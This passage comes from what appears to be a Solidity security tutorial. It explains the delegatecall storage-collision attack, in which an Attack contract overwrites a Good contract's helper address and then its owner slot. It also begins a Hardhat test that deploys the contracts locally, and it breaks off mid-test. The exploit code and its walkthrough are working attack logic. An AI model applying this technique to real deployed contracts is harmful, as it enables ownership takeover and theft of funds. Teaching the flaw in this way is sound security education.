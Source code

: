 ```solidity

    function attack() public {
        // This is the way you typecast an address to a uint
        good.setNum(uint(uint160(address(this))));
        good.setNum(1);
    }
}
```

The attacker will first deploy the `Attack.sol` contract and will take the address of a `Good` contract in the constructor. He will then call the `attack` function which will further initially call the setNum function present inside `Good.sol`

Intresting point to note is the argument with which the setNum is initially called, its an address typecasted into a uint256, which is it's own address. After `setNum` function within the `Good.sol` contract recieves the address as a uint, it further does a `delegatecall` to the `Helper` contract because right now the `helper` variable is set to the address of the `Helper` contract.

Within the `Helper` contract when the setNum is executed, it sets the `_num` which in our case right now is the address of `Attack.sol` typecasted into a uint into num. Note that because `num` is located at `Slot 0` of `Helper` contract, it will actually assign the address of `Attack.sol` to `Slot 0` of  `Good.sol`. Woops... You may see where this is going. `Slot 0` of `Good` is the `helper` variable, which means, the attacker has successfully been able to update the `helper` address variable to it's own contract now.

Now the address of the `helper` contract has been overwritten by the address of `Attack.sol`. The next thing that gets executed in the `attack` function within `Attack.sol` is another setNum but with number 1. The number 1 plays no relevance here, and could've been set to anything.

Now when setNum gets called within `Good.sol` it will delegate the call to `Attack.sol` because the address of `helper` contract has been overwritten. 

The `setNum` within `Attack.sol` gets executed which sets the `owner` to `msg.sender` which in this case is `Attack.sol` itself because it was the original caller of the `delegatecall` and because owner is at `Slot 1` of `Attack.sol`, the `Slot 1` of `Good.sol` will be overwriten which is its `owner`.

Boom the attacker was able to change the `owner` of `Good.sol` 👀 🔥

Lets try actually executing this attack using code. We will utilize Hardhat Tests to demonstrate the functionality.

Inside the `test` folder create a new file named `attack.js` and add the following lines of code

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Should change the owner of the Good contract", async function () {
    // Deploy the helper contract
    const helperContract = await ethers.getContractFactory("Helper");
    const _helperContract = await helperContract.deploy();
    await _helperContract.deployed();
    console.log("Helper Contract's Address:", _helperContract.address);

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.deploy(_helperContract.address);
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);
```